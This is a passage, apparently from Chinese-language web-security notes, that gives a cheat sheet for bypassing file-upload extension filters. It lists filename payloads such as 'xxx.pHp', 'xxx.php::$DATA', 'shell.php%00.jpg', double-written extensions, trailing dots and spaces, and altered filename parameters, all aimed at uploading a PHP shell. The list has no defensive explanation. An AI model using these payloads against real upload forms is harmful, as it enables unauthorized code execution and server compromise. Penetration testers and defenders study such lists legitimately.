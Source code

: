        - php4
        - php5
        - phtml
    - Misc
        - txt
        - svg
        - pdf
        - xml
        - xlsx
- 大小写(windows)
    - `xxx.pHp`、`xxx.Jsp`
- 空格绕过
    - `xxx .php`
    - `xxx.php `
- 点绕过
    - `xxx.php.`
- 换行
    - `xxx.txt%0aphp`
    - `xxx.ph\np`
- .空格. 绕过(windows)
    - `xxx.php .`
    - `xxx.php .jpg`
    - `xxx.php. .jpg`
- 特殊字符
    - `xxx.php::$DATA` (windows)
    - `xxx.php::$DATA......` (windows)
    - `xxx.php/`
    - `xxx.php?`
    - `xxx./php` (linux)
- 特殊字符+白后缀
    - `xxx.php.jpg`
    - `xxx.php_.jpg`
    - `xxx.php/1.jpg`
    - `xxx.php{}.jpg`
    - `xxx.php;jpg`
    - `xxx.php;.jpg`
    - `xxx.php;+x.jpg`
    - `xxx.php:1.jpg`
    - `xxx.php.123`
    - `xxx.jpg/.php`
    - `xxx.jpg/php`
    - `xxx.jpg/1.php`
    - `xxx.jpg{}.php`
- 双写绕过
    - `phpphp.php`
    - `php.php`
    - `xxx.pphphp`
    - `xxx.asaspxpx`
- 00 截断
    - `file.jpg%00shell.php`
    - `shell.php%00file.jpg`
    - `shell.php%00.jpg`
- .htaccess
- 中间件解析漏洞
- 参数
    - 修改 `filename="xx.php"` 为 `filename==="xxx.php"`
    - 修改 `filename="xx.php"` 为 `filename='xxx.php'`
    - 修改 `filename="xx.php"` 为 `filename=xxx.php`

---